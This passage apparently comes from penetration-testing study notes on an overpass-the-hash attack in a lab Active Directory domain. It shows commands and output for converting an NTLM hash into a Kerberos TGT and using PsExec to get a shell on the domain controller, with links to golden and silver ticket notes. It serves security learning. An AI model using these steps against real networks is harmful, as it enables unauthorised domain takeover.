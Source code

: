 [^2]: [Overpass the Hash (NTLM —> Kerberos)](../Tools/mimikatz.md#Overpass%20the%20Hash%20(NTLM%20—>%20Kerberos))

At this point, we have a new PowerShell session that allows us to execute commands as Jeff_Admin

```powershell
PS C:\Windows\system32> klist
Current LogonId is 0:0x1583ae
Cached Tickets: (0)
```

No Kerberos tickets have been cached, but this is expected since Jeff_Admin has not performed an interactive login. However, let’s generate a TGT by authenticating to a network share on the domain controller with net use:

```powershell
PS C:\Windows\system32> net use \\dc01
The command completed successfully.

PS C:\Windows\system32> klist
Current LogonId is 0:0x1583ae
Cached Tickets: (3)

#0> Client: jeff_admin @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canoni
	Start Time: 2/12/2018 13:59:40 (local)
	End Time: 2/12/2018 23:59:40 (local)
	Renew Time: 2/19/2018 13:59:40 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x2 -> DELEGATION
	Kdc Called: DC01.corp.com
#1> Client: jeff_admin @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
...
```

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official [PsExec](../Tools/Sysinternals%20Suite.md#PsExec) application from Microsoft.
Since we have generated Kerberos tickets and operate in the context of Jeff_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller.

```powershell
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32> ipconfig
Windows IP Configuration
Ethernet adapter Ethernet0:
Connection-specific DNS Suffix . :
Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2
IPv4 Address. . . . . . . . . . . : 192.168.1.110
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.1.1
...

C:\Windows\system32> whoami
corp\jeff_admin
```


[^1]: https://github.com/nidem/kerberoast
[^3]: [Craft a Silver Ticket](../Tools/mimikatz.md#Craft%20a%20Silver%20Ticket)
[^4]: [Craft a Golden Ticket](../Tools/mimikatz.md#Craft%20a%20Golden%20Ticket)
[^5]: [User Replication Updates](../Tools/mimikatz.md#User%20Replication%20Updates)